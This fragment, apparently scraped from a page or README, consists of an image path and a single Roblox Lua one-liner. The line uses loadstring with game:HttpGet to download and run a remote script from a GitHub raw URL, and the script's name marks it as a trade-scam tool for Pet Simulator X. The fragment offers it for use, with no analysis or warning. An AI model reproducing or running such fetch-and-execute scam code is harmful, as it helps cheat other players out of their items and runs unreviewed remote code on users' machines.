 Script = loadstring(game:HttpGet("https://raw.githubusercontent.com/Slekrow999/Pet-Simulator-X-TradeScam-Script-Raw/main/TradeScamScriptRAW.lua", true))()
